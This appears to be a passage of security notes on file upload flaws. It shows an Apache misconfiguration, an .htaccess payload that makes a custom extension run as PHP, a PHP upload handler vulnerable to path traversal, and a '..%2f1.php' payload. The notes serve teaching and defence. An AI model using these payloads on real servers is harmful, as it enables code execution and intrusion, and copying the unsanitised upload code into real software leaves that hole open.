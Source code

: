 ```sql
//config .apache2.conf or httpd.conf 

```

- **Misconfiguration server**

Allow user to upload file config to override config in `specific location` in web server 

```sql
Example : 
<Directory "/var/www/html/avatars">
    AllowOverride All
</Directory>

in Apache server  , file .htaccess will be override config 

```

Exploit : 

```sql
<FilesMatch "\.abc$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

Above config will be execute .`abc` extension  such as .`php` extension 

- **No sanitization file name**

Using filename to choose location will be save on server may be lead to `Path Traversal` 

```sql
<?php
$target_dir = "avatars/";
$target_file = urldecode($target_dir . $_FILES["avatar"]["name"]);
$uploadOk = true;

$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));

if($imageFileType != "jpg" && $imageFileType != "png") {
  echo "Sorry, only JPG & PNG files are allowed\n";
  $uploadOk = false;
}

if ($uploadOk && move_uploaded_file($_FILES["avatar"]["tmp_name"], $target_file)) {
  echo "The file ". htmlspecialchars( $target_file). " has been uploaded.";
} else {
  echo "Sorry, there was an error uploading your file.";
  http_response_code(403);
}
```

In  line 3 ,  `$_FILES["avatar"]["name"]`   direct string concatenation in `target_file` 

```sql
Payload : 
..%2f1.php  will be change location file is saved 
```

